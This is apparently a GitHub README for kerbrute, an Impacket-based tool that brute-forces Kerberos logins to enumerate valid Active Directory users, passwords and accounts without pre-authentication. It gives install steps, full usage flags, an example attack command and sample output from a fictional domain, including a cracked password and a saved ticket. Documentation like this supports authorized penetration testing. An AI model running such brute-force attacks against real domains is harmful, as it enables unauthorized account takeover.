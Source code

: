 # kerbrute
An script to perform kerberos bruteforcing by using the Impacket library.

When is executed, as input it receives a user or list of users and a password or list of password. Then is performs a brute-force attack to enumerate:
* Valid username/passwords pairs
* Valid usernames
* Usernames without pre-authentication required

As a result, the script generates a list of valid credentials discovered, and the TGT's generated due those valid credentials.

## Installation

From pypi:
```
pip3 install kerbrute
```

From repo:
```
git clone https://github.com/TarlogicSecurity/kerbrute
cd kerbrute
pip install -r requirements.txt
```

## Use

Help without arguments:
```shell
root@kali:~# kerbrute
Impacket v0.9.18 - Copyright 2018 SecureAuth Corporation

usage: kerbrute.py [-h] [-debug] (-user USER | -users USERS)
                   [-password PASSWORD | -passwords PASSWORDS] -domain DOMAIN
                   [-dc-ip <ip_address>] [-threads THREADS]
                   [-outputfile OUTPUTFILE] [-no-save-ticket]

optional arguments:
  -h, --help            show this help message and exit
  -debug                Turn DEBUG output ON
  -user USER            User to perform bruteforcing
  -users USERS          File with user per line
  -password PASSWORD    Password to perform bruteforcing
  -passwords PASSWORDS  File with password per line
  -domain DOMAIN        Domain to perform bruteforcing
  -dc-ip <ip_address>   IP Address of the domain controller
  -threads THREADS      Number of threads to perform bruteforcing. Default = 1
  -outputfile OUTPUTFILE
                        File to save discovered user:password
  -no-save-ticket       Do not save retrieved TGTs with correct credentials

Examples: 
	./kerbrute.py -users users_file.txt -passwords passwords_file.txt -domain contoso.com
```

Example of execution:
```shell
root@kali:~# kerbrute -domain jurassic.park -users users.txt -passwords passwords.txt -outputfile jurassic_passwords.txt
Impacket v0.9.18 - Copyright 2018 SecureAuth Corporation

[*] Stupendous => triceratops:Sh4rpH0rns
[*] Saved TGT in triceratops.ccache
[*] Valid user => velociraptor [NOT PREAUTH]
[*] Valid user => trex
[*] Saved discovered passwords in jurassic_passwords.txt
```
